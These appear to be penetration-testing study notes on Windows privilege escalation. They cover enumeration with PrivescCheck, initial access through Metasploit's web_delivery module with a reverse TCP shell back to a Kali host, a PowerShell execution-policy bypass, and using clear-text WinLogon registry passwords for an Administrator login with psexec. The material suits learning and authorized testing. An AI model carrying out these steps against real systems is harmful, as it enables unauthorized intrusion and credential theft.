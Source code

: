 ## Escalation ##

### Identifying Windows Privilege Escalation Vulnerabilities ###

#### Identifying PrivEsc Vulnerabilities ####
+ In order to elevate your privileges on Windows, you must first, identify privilege escalation vulnerabilities that exist on the target system 
+ This process will differ greatly based on the type of target you gain access to, all based on the systems unique configuration and version of windows 
+ This process can be tedious and time consuming, so it is recommended to automate the process
	+ This can be done through the use of various automation scripts 

#### PrivescCheck ####
+ PrivescCheck aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation 
	+ It also gathers various information that might be useful for exploitation and/or post-exploitation 
+ GitHub Repo: [PrivescCheck Repo](https://github.com/itm4n/PrivescCheck)
	+ A powershell script 

#### Hands-on PrivEsc####
+ Can get initial access to a system without vulnerable services using the <mark style="background: #FF5582A6;">Metasploit</mark> module: `multi/script/web_delivery` 
	+ Will set the target to powershell: `set target PSH` 
	+ Set payload: `windows/shell/reverse_tcp` 
	+ Can turn off PSH encoding in base64 with: `set PSH-EncodedCommand false`
	+ Set Kali IP as LHOSt with `set LHOST eth1` 
+ Will now <mark style="background: #ADCCFFA6;">copy the powershell code and run it on the victim</mark> 
	+ This will start a shell connection to Kali
	+ Can now turn the shell to a meterpreter using: `shell_to_meterpreter` module
+ Not that there is initial access, can <mark style="background: #BBFABBA6;">execute</mark> it with:
	+ `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck" 
		+ where `ep bypass` will bypass the default execution policy when running PowerShell scripts from the windows command line 
	+ Will end with a <mark style="background: #FFB86CA6;">PrivescCheck Report</mark> with other show each check it runs as well as results found above
		+ can also do an extended check with `-Extended` 

### Windows Privilege Escalation ###

#### Escalation with clear-text WinLogon registry passwords ####
+ <mark style="background: #FF5582A6;">PrivescCheck</mark> can be used to check if there are any clear-text passwords 
+ The WinLogon feature on windows is used to allow a user to automatically logon 
	+ The credentials are typically stored in the windows registry, and sometimes they are not encrypted 
+ Windows has a feature to allow <mark style="background: #BBFABBA6;">authentication with SMB</mark>, this can be manipulated to allow the logon of our stollen credentials 
	+ Can use `psexec.py Administrator@TARGET_IP`
		+ Where Administrator is the user being logged on as 
	+ Now logged in, and can use `whoami` to see what privileges that user has, where `nt authority\system` is the highest 
	+ `whoami /priv` will show what privileges are available 
+ Can also use `windows/smb/psexec` <mark style="background: #FF5582A6;">Metasploit</mark> module 
